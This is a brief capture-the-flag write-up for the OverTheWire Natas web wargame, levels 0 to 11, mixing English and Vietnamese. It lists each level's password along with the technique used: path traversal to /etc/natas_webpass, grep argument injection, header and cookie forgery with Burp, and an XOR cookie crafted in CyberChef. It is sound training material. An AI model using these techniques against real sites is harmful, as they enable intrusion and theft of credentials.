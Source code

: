 # NATAS WRITE UP
## Natas0
View source  
**user: natas1**  
**pass: gtVrDuiDfck831PqWsLEZy5gyDz1clto**
## Natas1
Ctrl + U  
**user: natas2**  
**pass: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi**
## Natas2
http://natas2.natas.labs.overthewire.org/files/users.txt  
**user: natas3**  
**pass: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14**
## Natas3
http://natas3.natas.labs.overthewire.org/robots.txt  
http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt  
**user: natas4**  
**pass: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ**
## Natas4
Dùng Burp intercept request để sửa referer thành http://natas5.natas.labs.overthewire.org/  
**user: natas5**  
**pass: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
## Natas5
Dùng Burp intercept request để sửa cookie thành loggedin=1  
**user: natas6**  
**pass: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1**  
## Natas6
http://natas6.natas.labs.overthewire.org/includes/secret.inc  
Secret: FOEIUWGHFEEUHOFUOIU  
**user: natas7**  
**pass: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**  
## Natas7
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8  
**user: natas8**  
**pass: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**  
## Natas8
```python
#!/bin/python3
  secret = base64.b64decode(bytes.fromhex('3d3d516343746d4d6d6c315669563362').decode('utf-8')[::-1])
```
secret = oubWYf2kBq  
**user: natas9**  
**pass: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl**  
## Natas9
Query: `'' -m10  /etc/natas_webpass/natas10`  
**user: natas10**  
**pass: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu**
## Natas10
Query: `'' -m10  /etc/natas_webpass/natas11`  
**user: natas11**  
**pass: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK**
## Natas11
https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Base64','string':'ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%253D'%7D,'Standard',false)&input=eyJzaG93cGFzc3dvcmQiOiJubyIsImJnY29sb3IiOiIjZmZmZmZmIn0  
Xor key: qw8J
Crafted cookie: data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK  
**user: natas12**
**pass: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3**
## Natas12

